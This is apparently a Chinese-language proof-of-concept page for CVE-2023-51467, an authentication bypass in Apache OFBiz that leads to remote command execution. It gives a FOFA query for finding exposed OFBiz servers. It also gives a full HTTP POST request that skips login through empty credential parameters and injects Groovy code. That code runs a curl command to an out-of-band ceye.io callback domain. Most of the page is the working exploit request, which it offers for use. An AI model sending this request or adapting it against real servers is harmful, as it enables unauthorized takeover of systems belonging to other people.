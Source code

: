 ## Apache OFBiz 身份验证绕过漏洞 (CVE-2023-51467)

 Apache OFBiz 在后台提供了执行groovy 代码的功能，但是由于存在认证绕过问题，攻击者可构造恶意请求绕过身份认证，利用后台相关接口功能执行groovy代码，执行任意命令，控制服务器。


## fofa
```
app="Apache_OFBiz"
```

## poc
```
POST /webtools/control/ProgramExport?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: 127.0.0.1:8443
Cookie: OFBiz.Visitor=10100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1:8443/accounting/control/main
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Origin: https://127.0.0.1:8443
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

groovyProgram=import+groovy.lang.GroovyShell%0D%0A%0D%0AGroovyShell+shell+%3D+new+GroovyShell%28%29%3B%0D%0Ashell.evaluate%28%27%22curl+CVE-2023-51467.xxxxxx.ceye.io%22.execute%28%29%27%29
```


![c930c2bb7200a1868dad8c9d1e58cf38](https://github.com/wy876/POC/assets/139549762/b516c218-f05a-45f9-974e-be96acd0a93c)

## 漏洞来源
- https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/
- https://mp.weixin.qq.com/s/A0pwnvbJ44mlm3E1JoFVBA
  
